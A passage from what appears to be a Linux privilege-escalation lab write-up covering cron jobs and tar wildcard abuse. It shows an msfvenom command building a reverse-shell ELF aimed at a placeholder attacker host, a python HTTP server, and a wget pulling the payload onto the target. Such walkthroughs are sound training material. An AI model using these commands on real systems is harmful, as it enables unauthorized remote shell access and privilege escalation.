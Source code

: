 <br/>

### 9.1: What is the value of the PATH variable in /etc/crontab?

<br/>

The full path was listed when we first viewed the contents of the `/etc/crontab` file.

```
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

<br/>
<br/>

## 10: Cron Jobs - Wildcards

<br/>

Let's read through the other cron job script:

```
cat /usr/local/bin/compress.sh
```

![image](https://user-images.githubusercontent.com/14150485/172453181-b97b7c49-a00e-4d5c-9328-a28fdca19eec.png)

The `tar` command appears to run with a wildcard signified by the asterisk symbol `*`, that can be exploited if not used properly. According to the `crontab` information, it seems that a backup of the `/home/user/` folder is being made every minute. Researching `tar` at [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) it looks like we can use its command options to spawn an interactive system shell!

<br/>

As instructed, let's create a `.elf` reverse shell using `msfvenon` which we will execute as a `tar` informative option later on.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f elf -o shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172459683-553b1f6b-cfe8-48d5-9db6-e60f546338e6.png)

Now let's set up a temporary python server so we can download the file from the target machine:

```
python3 -m http.server LOCAL_PORT
```

![image](https://user-images.githubusercontent.com/14150485/172460555-5eb9b9e4-27f4-47c5-a37d-06c5b5efdc20.png)

Now switch to the target machine shell and pull the file using the `wget` command:

```
wget LOCAL_IP:LOCAL_PORT/shell.elf
```
